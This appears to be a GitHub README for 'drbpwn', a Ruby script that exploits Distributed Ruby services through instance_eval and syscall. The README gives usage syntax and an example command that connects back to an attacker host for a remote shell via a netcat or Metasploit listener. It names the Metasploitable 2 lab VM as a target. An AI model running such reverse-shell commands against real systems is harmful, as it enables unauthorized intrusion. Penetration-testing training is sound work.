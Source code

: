 # drbpwn

## Description
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods. It aims to serve as an alternative to the missing Metasploit module for DRb exploitation. While the Metasploit module might reappear in future versions, this script can be utilized in the meantime when other exploits are not readily available.

## Usage
To use the script, follow the syntax below:

```ruby drbpwn.rb <target_host> <target_port> <attacker_host> [<attacker_port>]```

### Arguments
- `<target_host>`: The hostname or IP address of the target machine.
- `<target_port>`: The port number on which the DRb service is running on the target machine.
- `<attacker_host>`: The hostname or IP address of the attacker machine.
- `[<attacker_port>]`: (Optional) The port number on which attacker is listening. Defaults to `4444` if not provided.

- Note: Before running this script, make sure the attacker machine is listening for incoming connections on the designated port using netcat (nc) or Metasploit's multi/handler.

## Example
```ruby drbpwn.rb 192.168.0.100 8787 192.168.0.107```


In this example, the script will attempt to exploit the DRb service running on `192.168.0.100` at port `8787` and connect back to attacker at 192.168.0.107 at port 4444

## Note
Ensure that you have proper authorization before attempting to exploit any system. This script is provided for educational purposes and should only be used in environments where you have explicit permission to do so. Also, this script can be used to exploit the vulnerable service running on the Metasploitable 2 VM on port 8787.
